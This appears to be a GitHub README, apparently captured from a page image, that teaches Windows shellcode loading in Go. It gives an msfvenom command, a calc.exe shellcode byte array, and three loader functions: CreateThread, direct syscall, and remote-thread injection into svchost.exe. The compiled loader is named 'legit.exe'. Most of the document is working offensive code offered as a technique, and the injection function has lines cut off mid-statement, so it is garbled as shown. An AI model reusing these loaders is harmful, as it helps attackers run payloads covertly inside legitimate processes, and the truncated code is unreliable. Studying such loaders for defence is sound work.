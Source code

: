 ### 1 - Introduction 

I won't remind you how the functions work because they basically do the same thing as if the program had been written in C. On the other hand I will briefly remind you how these techniques work.

### Method 1 : CreateThread

for this method, we load the functions from **kernel32**, set a VirtualAlloc for our shellcode and copy the shellcode to memory using `RtlMoveMemory`. Then we create our thread using `CreateThread` and set the wait status on this thread


this shellcode will simply run the calculator for learning purposes. We generate it using *msfvenom**.
```powershell
msfvenom -p windows/x64/exec CMD=calc.exe -f raw
```
```go
var buf = []byte{0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00}
```

**Compilation:**
```go
go build -buildmode=c-shared -o legit.exe runnner.go
```

![image](https://user-images.githubusercontent.com/75935486/154823436-3aaa8ddb-ea39-41e9-a584-60bfd00e5760.png)

**Code:**
```go
func CreateThread(sc []byte) {
	kernel32 := windows.NewLazyDLL("kernel32.dll")
	RtlMoveMemory := kernel32.NewProc("RtlMoveMemory")
	CreateThread := kernel32.NewProc("CreateThread")
	addr, err := windows.VirtualAlloc(uintptr(0), uintptr(len(sc)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		fmt.Printf("[!] VirutalAlloc : %s", err.Error())
	}
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), (uintptr)(len(sc)))
	var oldProtect uint32
	err = windows.VirtualProtect(addr, uintptr(len(sc)), windows.PAGE_EXECUTE_READ, &oldProtect)
	if err != nil {
		panic(fmt.Sprintf("[!] VirtualProtect : %s", err.Error()))
	}
	thread, _, err := CreateThread.Call(0, 0, addr, uintptr(0), 0, 0)
	if err.Error() != "The operation completed successfully." {
		panic(fmt.Sprintf("[!] CreateThread : %s", err.Error()))
	}
	_, _ = windows.WaitForSingleObject(windows.Handle(thread), 0xFFFFFFFF)
}
```

### Method 2 : Syscall

```go
func SysCall(sc []byte) {
	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
	RtlMoveMemory := kernel32.NewProc("RtlMoveMemory")
	addr, err := windows.VirtualAlloc(uintptr(0), uintptr(len(sc)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		fmt.Printf("[!] VirutalAlloc : %s", err.Error())
	}
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), (uintptr)(len(sc)))
	var oldProtect uint32
	err = windows.VirtualProtect(addr, uintptr(len(sc)), windows.PAGE_EXECUTE_READ, &oldProtect)
	if err != nil {
		panic(fmt.Sprintf("[!] VirtualProtect : %s", err.Error()))
	}
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```
for this technique we set `VirtualAlloc` for the shellcode in **`addr` variable** and we use the syscall library from golang to initalize the syscall on the address of `addr`

![image](https://user-images.githubusercontent.com/75935486/154824956-ec67dd43-1bf4-4ce9-b529-6bb65721e18e.png)


### Method 3 : InjectProcess

```go
func injectProcess(sc []byte) {
        pid := FindProcess("svchost.exe")
        fmt.Printf("[*] Injecting into svchost.exe, PID=[%v]\n", pid)
        if pid == 0 {
                panic("Canot find svchost.exe")
        }
        kernel32 := windows.NewLazySystemDLL("kernel32.dll")
        VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
        VirtualProtectEx := kernel32.NewProc("VirtualProtectEx")
        WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
        CreateRemoteThreadEx := kernel32.NewProc("CreateRemoteThreadEx")

        proc, errOpenProcess := windows.OpenProcess(windows.PROCESS_CREATE_THREAD|windows.PROCESS_VM_|windows.PROCESS_QUERY_INFORMATION, false, uint32(pid))
        if errOpenProcess != nil {
                panic(fmt.Sprintf("[!] OpenProcess Error : %s", errOpenProcess.Error()))
        }

        addr, _, errVirtualAlloc := VirtualAllocEx.Call(uintptr(proc), 0, uintptr(len(sc)), windows
        if errVirtualAlloc != nil && errVirtualAlloc.Error() != "The operation completed successfully
                panic(fmt.Sprintf("[!] VirtualAlloc Error:\r\n%s", errVirtualAlloc.Error()))
        }

        _, _, errWriteProcessMemory := WriteProcessMemory.Call(uintptr(proc), addr, (uintptr)(unsafe.
        if errWriteProcessMemory != nil && errWriteProcessMemory.Error() != "The operation completed 
                panic(fmt.Sprintf("[!] WriteProcessMemory Error:\r\n%s", errWriteProcessMemory.Error(
        }
        op := 0
        _, _, errVirtualProtectEx := VirtualProtectEx.Call(uintptr(proc), addr, uintptr(len(sc)), win
        if errVirtualProtectEx != nil && errVirtualProtectEx.Error() != "The operation completed succ
                panic(fmt.Sprintf("[!] VirtualProtectEx Error:\r\n%s", errVirtualProtectEx.Error()))
        }
        _, _, errCreateRemoteThreadEx := CreateRemoteThreadEx.Call(uintptr(proc), 0, 0, addr, 0, 0, 0
        if errCreateRemoteThreadEx != nil && errCreateRemoteThreadEx.Error() != "The operation comple
                panic(fmt.Sprintf("[!] CreateRemoteThreadEx Error:\r\n%s", errCreateRemoteThreadEx.Er
        }
        errCloseHandle := windows.CloseHandle(proc)
        if errCloseHandle != nil {
                panic(fmt.Sprintf("[!] CloseHandle Error:\r\n%s", errCloseHandle.Error()))
        }
}
```
